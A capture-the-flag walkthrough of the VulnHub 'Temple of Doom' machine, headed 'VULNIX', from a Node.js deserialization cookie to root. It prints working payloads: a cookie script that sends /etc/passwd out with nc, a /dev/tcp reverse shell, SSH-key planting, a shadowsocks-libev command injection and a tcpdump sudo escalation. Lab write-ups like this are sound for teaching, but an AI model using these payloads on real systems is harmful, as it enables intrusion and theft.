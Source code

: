 # VULNIX

**URL: https://www.vulnhub.com/entry/temple-of-doom-1,243/**

### NMAP  
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-13 09:02 UTC  
>Nmap scan report for 192.168.111.3  
>Host is up (0.00044s latency).  
>Not shown: 998 closed ports  
>PORT    STATE SERVICE VERSION  
>22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)  
>| ssh-hostkey:   
>|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)  
>|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)  
>|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)  
>666/tcp open  http    Node.js Express framework  
>|_http-title: Site doesn't have a title (text/html; charset=utf-8).  
>MAC Address: 08:00:27:BB:24:1C (Oracle VirtualBox virtual NIC)  
>Device type: general purpose  
>Running: Linux 3.X|4.X  
>OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4  
>OS details: Linux 3.2 - 4.9  
>Network Distance: 1 hop  


### FIRST STEP: HTTP Cookie  

When we access the http service of the server we get the following message: "Under Construction, Come Back Later!". But, the second request throws an exception.
Reading the output of the error we know that there's something wrong with the unserialization of the cookie. If we decode the cookie we get something like:  

>{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires**=":**Friday, 13 Oct 2018 00:00:00 GMT"}  

We see that there's an error in the json format. When we correct this we get a "Hello Admin" message.  

Searching a bit, we find these document:  

https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf  

With this information, and playing with the output, we edit the exploit to make it work. In order to make it easier, we create a script to encode the requests:  

root@kali:~# cat cookie.py   

>import sys  
>import base64  
>  
>COOKIE='{"rce":"test","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires":"Friday, 13 Oct 2018 00:00:00 GMT","username":"_$$ND_FUNC$$_function (){ require(\'child_process\').exec(\'cat /etc/passwd | nc 192.168.111.4 8888\', function(error, stdout, stderr) { console.log(stdout) }); }()"}'  
>  
>print base64.b64encode(COOKIE)  


With this cookie, we make a request to the server:  

>root@kali:~# curl -H "Cookie: profile=$(python cookie.py)" "http://192.168.111.3:666/"  

And we get the content of /etc/passwd:  

root@kali:~# nc -nvlp 8888  
>listening on [any] 8888 ...  
>connect to [192.168.111.4] from (UNKNOWN) [192.168.111.3] 41624  
>root:x:0:0:root:/root:/bin/bash  
>...  
>nodeadmin:x:1001:1001::/home/nodeadmin:/bin/bash  
>fireman:x:1002:1002::/home/fireman:/bin/bash  

Now, let's get our reverse shell. With the following code:  
  
>"_$$ND_FUNC$$_function (){ require(\'child_process\').exec(\'/bin/bash -i >& /dev/tcp/192.168.111.4/8888 0>&1 \', function(error, stdout, stderr) { console.log(stdout) }); }()"  

We get our shell. But the first thing is getting an interactive shell, so let's exchange SSH keys and open a proper shell.  

root@kali:~# nc -nvlp 8888  
>listening on [any] 8888 ...  
>connect to [192.168.111.4] from (UNKNOWN) [192.168.111.3] 41628  
>bash: cannot set terminal process group (806): Inappropriate ioctl for device  
>bash: no job control in this shell  
>[nodeadmin@localhost ~]$   
>[nodeadmin@localhost ~]$ uname -a  
>Linux localhost.localdomain 4.16.3-301.fc28.x86_64 #1 SMP Mon Apr 23 21:59:58 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux  
>[nodeadmin@localhost ~]$ mkdir .ssh  
>[nodeadmin@localhost ~]$ chmod 700 .ssh  
>[nodeadmin@localhost ~]$ chmod 600 .ssh/authorized_keys  
>[nodeadmin@localhost ~]$ echo 'ssh-rsa AAAA...jf root@kali' > /home/nodeadmin/.ssh/authorized_keys  

Now we can login via SSH without being asked for the password.  

After trying harder, and harder... we look for stuff from the other user in the system until we find something interesting:  

[nodeadmin@localhost ~]$ grep -riI fireman /etc/  
>/etc/rc.d/rc.local:#su fireman -c /usr/local/bin/ss-manager  

We run "/usr/local/bin/ss-manager --help" and read that it's "shadowsocks-libev 3.1.0". Looking for info about this binary we find the following:  

https://www.x41-dsec.de/lab/advisories/x41-2017-010-shadowsocks-libev/  

There's a RCE vulnerability with this version. So after a lot of tests, we end up changing our crontab and adding the following line:  

[nodeadmin@localhost ~]$ crontab -l
>@reboot /bin/node /home/nodeadmin/.web/server.js &  
>**@reboot su fireman -c /usr/local/bin/ss-manager**  

We reboot the machine and find another port open, where it's running the ss-manager. So, we exploit this vulnerability to gain access as **fireman**:  

[nodeadmin@localhost ~]$ nc -u 127.0.0.1 8839  
>add: {"server_port":8003, "password":"test", "method":"||echo 'ssh-rsa AAAA...jf root@kali' > /home/fireman/.ssh/authorized_keys"}**ok**  

And we get an OK. So now, we can login with fireman through SSH. Let's explore this way. Quickly we find that fireman can execute some stuff as root:

[fireman@localhost ~]$ sudo -l  
>Matching Defaults entries for fireman on localhost:  
>    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1  
>    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT  
>    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL  
>    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",  
>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
>  
>User fireman may run the following commands on localhost:  
>    (ALL) NOPASSWD: /sbin/iptables  
>    (ALL) NOPASSWD: /usr/bin/nmcli  
>    (ALL) NOPASSWD: /usr/sbin/tcpdump  


nmcli? Where have I heard that before? **CVE-2018-1111**. And judging by the iptables config, it makes sense that we have to disable it first to exploit this vulnerability.  

[fireman@localhost ~]$ sudo iptables -L  
>Chain INPUT (policy ACCEPT)  
>target     prot opt source               destination           
>DROP       udp  --  anywhere             anywhere             udp spt:bootps dpt:bootpc  
>  
>Chain FORWARD (policy ACCEPT)  
>target     prot opt source               destination           
>  
>Chain OUTPUT (policy ACCEPT)  
>target     prot opt source               destination    

Here is a demo:

https://twitter.com/Barknkilic/status/996470756283486209  

But, let's explore another way. Why tcpdump? Reading the man page, we see some interesing flags: "[ -z postrotate-command ] [ -Z user ]"  

Let's try this. Creating a small script to do the same as before:  

[fireman@localhost ~]$ cat RCE  
>#/bin/bash  
>echo 'ssh-rsa AAA...zdzjf root@kali' > /root/.ssh/authorized_keys  

And executing it after a 1 second of capture.   

[fireman@localhost ~]$ sudo tcpdump -i eth0 -G 1 -z ./RCE -Z root  

Bingo, that was one way. Now we can login as root and read the flag:  

root@kali:~# ssh -l root 192.168.111.3  
>Last failed login: Sat Jul 14 15:06:59 EDT 2018  
>There were 3 failed login attempts since the last successful login.  
>Last login: Thu Jun  7 23:14:57 2018 from 192.168.2.15  
>[root@localhost ~]# id  
>uid=0(root) gid=0(root) groups=0(root)  
>[root@localhost ~]# ls -lrth  
>total 4.0K  
>-rw-r--r-- 1 root root 2.0K Jun  7 23:16 flag.txt  
